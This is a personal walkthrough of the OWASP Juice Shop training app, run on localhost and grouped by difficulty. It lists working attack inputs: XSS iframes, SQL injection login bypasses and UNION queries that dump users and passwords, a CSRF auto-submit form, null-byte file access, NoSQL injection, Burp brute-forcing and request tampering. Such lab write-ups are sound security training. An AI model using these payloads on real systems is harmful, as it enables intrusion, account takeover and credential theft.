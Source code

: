 # OWASP Juice Shop<br>
## 1 STAR
### Score Board<br>
Firefox > Debugger > Search score > found: /score-board<br><br>
http://localhost:3000/#/score-board<br>

### Bully Chatbot<br>
Menu > Support Chat > Keep spamming coupon <br><br>

### DOM XSS<br>
search bar > <iframe src="javascript:alert(`xss`)"><br><br>

### Bonus Payload<br>
Search bar <br>
```
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
```
### Confidential Document<br>
http://localhost:3000/ftp > acquisitions.md<br><br>

### Error Handling<br>
Account Login > put ' in email and password fields<br><br>

### Exposed Metrics<br>
http://localhost:3000/metrics<br><br>

### Outdated Allowlist<br>
gospider -v -s http://127.0.0.1:3000/ -o gospider_output<br>
cd gospider_output
cat 127_0_0_1 | grep code-200<br><br>

### Missing Encoding<br>
change # to %23<br>
http://localhost:3000/assets/public/images/uploads/%F0%9F%98%BC-%23zatschi-%23whoneedsfourlegs-1572600969477.jpg<br><br>

### Zero Stars<br>
http://localhost:3000/#/contact<br>
burp proxy > repeater > rating:0<br><br>

### Repetitive Registration<br>
http://localhost:3000/#/register<br>
burp proxy > repeater > passwordRepeat:""<br><br>

## 2 STAR
### Login Admin<br>
http://localhost:3000/#/login<br>
email:admin' or true--<br>
password:'<br><br>

### Admin Section<br>
http://localhost:3000/#/administration<br><br>

### Five-Star Feedback<br>
http://localhost:3000/#/administration<br>
delete button<br>

### Empty User Registration<br>
http://localhost:3000/#/login<br>
burp proxy > repeater > email:"",password:"",passwordRepeat:""<br><br>

### Empty User Registration<br>
email:mc.safesearch@juice-sh.op<br>
password:Mr. N00dles<br>

### Meta Geo Stalking<br>
http://localhost:3000/#/forgot-password<br>
exiftool favorite-hiking-place.png <br>
36°57’31.38″ N 84°20’53.58″ W <br>
burp suite > repeater<br>
email: john@juice-sh.op<br>
secret:Daniel Boone National Forest<br>

### Weird Crypto
hash analyzer > 4b2e6b2618920cb1713bb801cd05401e<br>
http://localhost:3000/#/contact <br>
Comment: md5 > submit <br>

### Visual Geo Stalking
http://localhost:3000/#/forgot-password<br>
http://localhost:3000/assets/public/images/uploads/IMG_4253.jpg<br>
email: emma@juice-sh.op<br>
secret: ITsec<br>

### View Basket
http://localhost:3000/#/basket<br>
burp suite > repeater<br>
GET /rest/basket/X HTTP/1.1 <br>

### Security Policy
localhost:3000/.well-known/security.txt<br>

### Deprecated Interface 
http://localhost:3000/#/complain <br>
sudo apt install npm<br>
sudo npm -g install js-beautify<br>
js-beautify main.js > main1.js<br>
grep pdf main1.js<br>
```
allowedMimeType: ["application/pdf", "application/xml", "text/xml", "application/zip", "application/x-zip-compressed", "multipart/x-zip"],["ng2FileSelect", "", "id", "file", "type", "file", "accept", ".pdf,.zip", "aria-label", "Input area for uploading a single invoice PDF or XML B2B order file or a ZIP archive containing multiple invoices or orders\x3c!----\x3e", 2, "margin-left", "10px", 3, "uploader"]
rename .xml file extension to .zip or .pdf > uoload and submit
burp suite > repeater > remove .zip to .xml extension
Content-Disposition: form-data; name="file"; filename="legal.xml.zip"
```
### Login Admin
http://localhost:3000/#/login<br>
email:admin@juice-sh.op<br>
burp suite > intruder > positions: password > attack type: sniper<br>
payloads > usr/share/wordlist/fern-wifi/common.txt <br>

## 3 STAR
### Upload type
http://localhost:3000/#/complain <br>
rename .txt file extension to .zip or .pdf > uoload and submit<br>
burp suite > repeater > remove .zip to .txt extension<br>
Content-Disposition: form-data; name="file"; filename="legal.txt.zip"<br>

### Admin Registration
http://localhost:3000/#/register<br>
burp suite > proxy <br>
Post response > role:"customer" <br>
Post request > "role":"admin" <br>

### Bjoern's Favorite Pet 
http://localhost:3000/#/forgot-password<br>
email:bjoern@owasp.org <br>
secret: Zaya<br>

### CAPTCHA Bypass 
http://localhost:3000/#/contact <br>
burp suite > proxy > repeater <br>
send x10 <br>

### CSRF
download firefox 96.0 <br>
http://localhost:3000/profile > login into account <br>
http://htmledit.squarefree.com/ <br>
submit form: <br>
```
<form action="http://localhost:3000/profile" method="POST">
  <input name="username" value="CSRF"/>
  <input type="submit"/>
</form>
<script>document.forms[0].submit();</script>
```

### Database schema
http://localhost:3000/#/search?q=<br>
burp suite > proxy > repeater <br>
GET /rest/products/search?q=apple'))union%20select%20sql,2,3,4,5,6,7,8,9%20from%20sqlite_master-- HTTP/1.1<br>

### Upload size

### Manipulate Basket 
Add to basket<br>
burp suite > proxy > repeater <br>
POST /api/BasketItems/ HTTP/1.1 <br>
```
"ProductId":24,
"BasketId":"1",
"quantity":1,
"BasketId":"3"
```

### Reset Jim's Password 
http://localhost:3000/#/forgot-password<br>
email:jim@juice-sh.op<br>
secret: Samuel<br>

###  Forged Review 
add review for item<br>
burp suite > proxy<br>
"author":"emma@juice-sh.op"<br>

### Login Bender
http://localhost:3000/#/login<br>
email: bender@juice-sh.op'--<br>
password: '<br>

### Login Amy
http://localhost:3000/#/login<br>
burp suite > proxy<br>
"email":"amy@juice-sh.op"<br>
"password":"K1f....................."<br>

### GDPR Data Erasure 
burp suite > proxy > repeater <br>
GET /rest/products/search?q=apple'))union%20select%20deletedAt,email,username,4,5,6,7,8,9%20from%20Users-- HTTP/1.1<br>
http://localhost:3000/#/login<br>
email:chris.pike@juice-sh.op'--<br>
password:'<br>

### Deluxe Fraud
http://localhost:3000/#/deluxe-membership<br>
firefox > inspect elements on Pay button<br>
remove disabled="true",mat-button-disabled<br>
burp suite > proxy > repeater <br> 
"paymentMode":"paid" <br>

### Payback time
Add to basket <br>
burp suite > proxy<br>
POST /api/BasketItems/ HTTP/1.1<br>
"ProductId":41,"BasketId":"1","quantity":-999<br>
check out<br>

### Privacy Policy Inspection 
firefox > highlighted glowing text > inspect <br>
span class="hot"<br>
search .hot<br>
http://localhost we may also instruct you to refuse all reasonably necessary responsibility<br>
http://localhost:3000/we/may/also/instruct/you/to/refuse/all/reasonably/necessary/responsibility<br>

### Product tampering
burp suite > repeater<br>
GET /rest/products/search?q=apple'))union%20select%20id,name,description,price,deluxePrice,image,createdAt,updatedAt,deletedAt%20from%20Products-- HTTP/1.1<br>
PUT /api/products/9 HTTP/1.1<br>
Content-Type: application/json<br>
{"description":"<a href=\"https://owasp.slack.com\""}<br>

## 4 STAR

### Easter Egg
### Nested Easter Egg
### Poison Null Byte 
http://localhost:3000/ftp<br>
GET /ftp/eastere.gg%2500.md HTTP/1.1<br>
/gur/qrif/ner/fb/shaal/gurl/uvq/na/rnfgre/rtt/jvguva/gur/rnfgre/rtt<br>
online Caesar ciper: /the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg<br>

### Forgoteen Sales Backup
http://localhost:3000/ftp<br>
GET /ftp/coupons_2013.md.bak%2500.md HTTP/1.1<br>

### Misplaced Signature File 
http://localhost:3000/ftp<br>
GET /ftp/suspicious_errors.yml%2500.md HTTP/1.1<br>

### Forgotten Developer Backup
http://localhost:3000/ftp<br>
GET /ftp/package.json.bak%2500.md HTTP/1.1<br>

### Leaked Unsafe Product
burp suite > proxy > repeater<br>
GET /rest/products/search?q=apple'))union%20select%20id,name,description,price,deluxePrice,image,createdAt,updatedAt,deletedAt%20from%20Products-- HTTP/1.1<br>
id":11,"name":"Rippertuer Special Juice","description":"Contains a magical collection of the rarest fruits gathered from all around the world, like Cherymoya Annona cherimola, Jabuticaba Myrciaria cauliflora, Bael Aegle marmelos... and others, at an unbelievable price! <br />This item has been made unavailable because of lack of safety standards. (This product is unsafe! We plan to remove it from the stock!)"<br>
https://pastebin.com/90dUgd7s<br>
http://localhost:3000/#/contact<br>
Comment: Hueteroneel Eurogium Edule<br>

### Vulnerable Library
http://localhost:3000/ftp<br>
GET /ftp/package.json.bak%2500.md HTTP/1.1<br>
http://localhost:3000/#/contact<br>
Comment:marsdb ~0.6,grunt ~1.0,express-jwt 0.1.3,js-yaml 3.10,sequelize ~4,sanitize-html 1.4.2,socket.io ~2.0<br>

### Legacy Typosquatting
http://localhost:3000/#/contact<br>
comment: epilogue-js<br>

### NoSQL Manipulation
write review<br>
burp suite > proxy > repeater<br>
PATCH /rest/products/reviews HTTP/1.1<br>
{ "id": { "$ne": -1 }, "message": "NoSQL Injection!" }<br>

### Allowlist Bypass
http://localhost:3000/redirect?to=http://kimminich.de?pwned=https://github.com/bkimminich/juice-shop<br>

### Christmas special
burp suite > proxy > repeater<br>
GET /rest/products/search?q=apple'))union%20select%20id,name,description,price,deluxePrice,image,createdAt,updatedAt,deletedAt%20from%20Products-- HTTP/1.1<br>
POST /api/BasketItems/ HTTP/1.1
{"ProductId":10,"BasketId":"1","quantity":1}


### Ephemeral Accountant
http://localhost:3000/#/login <br>
burp suite > proxy > repeater <br>
{"email":"' UNION SELECT * FROM (SELECT 15 as 'id', '' as 'username', 'acc0unt4nt@juice-sh.op' as 'email', '12345' as 'password', 'accounting' as 'role', '123' as 'deluxeToken', '1.2.3.4' as 'lastLoginIp' , '/assets/public/images/uploads/default.svg' as 'profileImage','' as 'totpSecret', 1 as 'isActive','1999-08-16 14:14:41.644 +00:00' as 'createdAt','1999-08-16 14:33:41.930 +00:00' as 'updatedAt',null as 'deletedAt')--","password":""} <br>

### Expired Coupon
firefox > Debugger<br>
search: discount > WMNSDY2023<br>
bash > timedatectl set-ntp 0 > timedatectl set-time '2019-03-08' <br>

### Login Bjoern
firefox > Debugger > search: oauth <br>
bash > cat main1.js | grep password: <br>
password: btoa(e.email.split("").reverse().join("")),<br>
email: bjoern.kimminich@gmail.com<br>
moc.liamg@hcinimmik.nreojb<br>
bash > echo -n moc.liamg@hcinimmik.nreojb | base64<br>
bW9jLmxpYW1nQGhjaW5pbW1pay5ucmVvamI=<br>
http://localhost:3000/#/login<br>
POST /rest/user/login HTTP/1.1<br>
{"email":"bjoern.kimminich@gmail.com","password":"bW9jLmxpYW1nQGhjaW5pbW1pay5ucmVvamI="}<br>

### Steganography
http://localhost:3000/#/about<br>
firefox > inspect photo <br>
http://localhost:3000/assets/public/images/carousel/5.png<br>
sudo dpkg -i openstego_0.8.6-1_all.deb<br>
openstego > extract data<br>
http://localhost:3000/#/contact<br>
comment > pickle rick<br>

### User Credentials
burp suite > proxy > repeater<br>
GET /rest/products/search?q=apple'))union%20select%20id,username,email,password,5,6,7,8,9%20from%20Users-- HTTP/1.1<br>

### Reset Uvogin Password
http://localhost:3000/#/forgot-password<br>
https://web.archive.org/web/20200403193744/https://twitter.com/uv0gin<br>
email: uvogin@juice-sh.op<br>
secret: Silence of the Lambs<br>

### Reset Bender's Password
http://localhost:3000/#/forgot-password<br>
email:bender@juice-sh.op<br>
secret:Stop'n'Drop<br>

### Access logs
bash > ffuf -w /usr/share/wordlists/dirb/common.txt -u http://localhost:3000/support/FUZZ -fs 1987<br>
http://localhost:3000/support/Logs<br>

### Change Bender's password
http://localhost:3000/#/privacy-security/change-password<br>
burp suite > proxy > repeater <br>
GET /rest/user/change-password?current=&new=slurmCl4ssic&repeat=slurmCl4ssic HTTP/1.1<br>

### Supply chain attack
http://localhost:3000/ftp<br>
GET /ftp/package.json.bak%2500.md HTTP/1.1<br>
eslint-scope 3.7.2<br>
http://localhost:3000/#/contact<br>
comment:https://github.com/eslint/eslint-scope/issues/39<br>

### Retrieve Blueprint
http://localhost:3000/rest/admin/application-configuration<br>
firefox > network<br>
search: blueprint<br>
fileForRetrieveBlueprintChallenge	"JuiceShop.stl"<br>
firefox > inspector > search: 3d_keychain.jpg<br>
replace JuiceShop.stl<br>
<img _ngcontent-fpo-c46="" mat-card-image="" role="button" class="mat-card-image img-responsive img-thumbnail" alt="OWASP Juice Shop Logo (3D-printed)" src="assets/public/images/products/JuiceShop.stl"><br>

















